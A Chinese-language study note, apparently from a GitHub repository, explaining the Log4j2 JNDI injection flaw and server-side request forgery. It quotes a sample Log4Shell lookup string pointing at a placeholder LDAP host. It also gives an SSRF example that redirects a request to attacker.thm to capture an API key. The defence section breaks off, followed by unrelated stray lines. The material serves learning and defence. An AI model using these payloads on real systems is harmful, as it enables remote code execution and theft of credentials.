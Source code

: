 ### Log4J2 ###

> [Log4J2漏洞](https://blog.csdn.net/FisrtBqy/article/details/130680143)

2021年11月24日，阿里云安全团队向Apache官方报告了Apache Log4j2远程代码执行漏洞。该漏洞是由于Apache Log4j2某些功能存在递归解析功能，导致攻击者可直接构造恶意请求，触发远程代码执行漏洞，从而获得目标服务器权限。漏洞适用版本：2.0 <= Apache log4j2 <= 2.14.1

- Log4j为了输出日志时能输出任意位置的Java对象，引入了Lookup接口，这个Lookup接口可以看作是JNDI的一种实现，允许按照具体的名称逻辑查找对象的位置，并输出对象的内容，此对象可以通过Java的序列化或反序列化传输，从远程服务器上查找。
- 由于Lookup接口的原因，Log4j就暗含JNDI注入漏洞，可以联合使用JNDI+LDAP或者JNDI+RMI通过命名功能直接从远程服务器上调用文件并在本地执行。
- Log4j在处理消息转换时，会按照字符检测每条日志，当日志中包含${}时，则会将表达式的内容替换成真实的内容(即lookup接口查找得到的内容），使用LDAP或RMI协议，能从远程服务区上请求恶意的对象，对象在调用的过程中会被解析执行，导致了Log4j的漏洞。
- LDAP(Ligntweight Directory Access Protocol)，轻量级目录访问协议，既是一种服务，也是一种协议，是JNDI的一种底层实现，主要功能是提供命名关键字到对象的映射目录，开发人员可以通过输入名称，获取到对象的内容。简单来说，就是搜索功能，它是分布式的，允许从远程服务器上面加载获取对象。默认服务端口389.
- Java Naming and Directory Interface，JAVA命名和目录接口（命名服务接口），应用通过该接口与具体的目录服务进行交互，允许通过名称发现和查找数据或对象，可用于动态加载配置等
- JNDI注入流程：攻击者生成一个恶意的类文件，上传到一个为攻击者服务的HTTP服务器，向目标服务器（靶机，运行了LDAP服务，并指定了恶意类文件所在的地址）给HTTP请求中向Java应用程序传入恶意参数(比如${jndi:ldap://xxx.com:1234/xxx})，指向的是LDAP服务器不存在的资源，当JNDI接口使用lookup查找时，发现在参数指定的LDAP服务器中找不到，于是根据LDAP服务器预设的地址自动从存有恶意类文件的HTTP服务器动态加载对象。
- RMI协议：JAVA的一种远程接口调用协议，在TCP协议上传递可序列化的Java对象，即可以实现调用远程方法和调用本地方法一样简单。

## 服务器请求伪造 (Server-Side Request Forgery (SSRF)) ##

指攻击者能够强制Web应用程序代表其向任意目标发送请求的情况下，同时攻击者还可以**控制请求本身的内容**，SSRF漏洞通常出现在需要使用第三方服务的Web应用程序的具体实现中。

**攻击的对象是从外网无法访问得内部系统，服务器端提供了从其他服务器获取数据的功能且没有对目标地址进行过滤，使用web应用作为代理去攻击远程和本地的服务器**

考虑一个使用外部API向其客户端发送SMS通知的Web应用程序。对于每封电子邮件，网站都需要向SMS提供商的服务器发出Web请求，以便发送想要发送的消息内容。由于SMS服务提供商是按每条消息计费的，因此他们会要求你在向其API发出的每个请求中添加一个他们预先分配给你的密钥；这个API密钥将充当身份验证令牌，使得SMS服务提供商能够知道要向哪个用户计费每条消息。应用程序向用户**公开了server参数**，该参数定义了SMS服务提供商的服务器名称；如果攻击者愿意，他们就可以通过简单地修改server值以指向由其所控制的计算机设备，然后Web应用程序就会将SMS请求转发给攻击者而不是SMS服务提供商。作为被转发的消息的一部分，攻击者还能获取到API密钥，从而允许他们使用SMS服务发送消息，而费用则由网站所有者承担。

攻击者将server参数设置为自身

	https://www.mysite.com/sms?server=attacker.thm&msg=ABC

存在SSRF漏洞的Web应用程序自动发送以下请求：

	https://attacker.thm/api/send?msg=ABC

可以用于：

1. 枚举内部网络，包括IP地址和端口等信息；
2. 滥用服务器之间的信任关系，并获取对其他受限服务的访问权限；
3. 与一些非HTTP服务交互以实现远程代码执行(RCE)
4. 目标网站本地敏感数据的读取
5. 内外网主机应用程序或漏洞的利用

### 如何防范 ###

1. 过滤返回的信息，如果 web 应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
swiftie

8
我还没去过重庆
